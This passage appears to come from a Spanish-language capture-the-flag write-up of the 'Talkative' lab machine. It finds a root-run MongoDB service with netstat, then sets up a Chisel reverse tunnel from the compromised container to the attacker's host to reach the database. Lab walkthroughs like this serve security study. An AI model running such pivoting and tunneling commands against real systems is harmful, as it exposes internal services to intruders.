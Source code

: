 
Una vez ejecutado, nos damos cuenta de un servicio que se ejecuta con el UID=0 y corresponde a MongoDB:


![1](/assets/img/sample/Talkative/27.png)


Ahora podemos ejecutar el siguiente comando para ver todas las conexiones TCP que se efectúan en el sistema (En su máquina local, pueden hacer un "man netstat" para ver todos los comandos y sus respectivas descripciones):


```terminal
netstat -nat
```

Ahora si buscamos el puerto por defecto de MongoDB, corresponde al 27017 así que podemos ver que está en la 172.17.0.2 en la máquina:

![1](/assets/img/sample/Talkative/28.png)

Ahora necesitamos conectarnos a ese servicio pero primero debemos tunelizarlo, ya que, estamos dentro de un contenedor y no podremos acceder "desde afuera" así que utilizaremos Chisel para crear este túnel entre MongoDB y nuestra máquina local.



Transferimos Chisel a la máquina víctima y ejecutamos el siguiente comando:

```terminal
./chisel client 10.10.14.12:1414 R:27017:172.17.0.2:27017 
```

Luego en nuestra máquina local:

```terminal
chisel server --reverse --port 1414
```



![1](/assets/img/sample/Talkative/29.png)
